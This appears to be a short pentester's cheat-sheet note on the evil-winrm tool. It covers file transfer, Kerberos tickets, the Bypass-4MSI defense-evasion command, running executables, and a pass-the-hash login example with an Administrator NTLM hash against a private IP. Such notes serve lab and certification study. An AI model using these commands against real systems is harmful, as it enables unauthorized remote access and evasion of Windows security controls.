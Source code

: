 features you may not know

`upload
`download
	using these transfers the whole directory over

Use kerberos tickets with evil-winrm
```bash
sudo apt-get install krb5-user -y
```
see [[Pass the Ticket (PtT)]] for more info

Only Powershell
so...

powershell -ep bypass alternative
	`Bypass-4MSI

`menu
	view commands

`Invoke-Binary <file>.exe`
	can run exe files


PtH example
	`evil-winrm --ip 172.16.141.11 --user Administrator -H f1014ac49bae005ee3ece5f47547d185
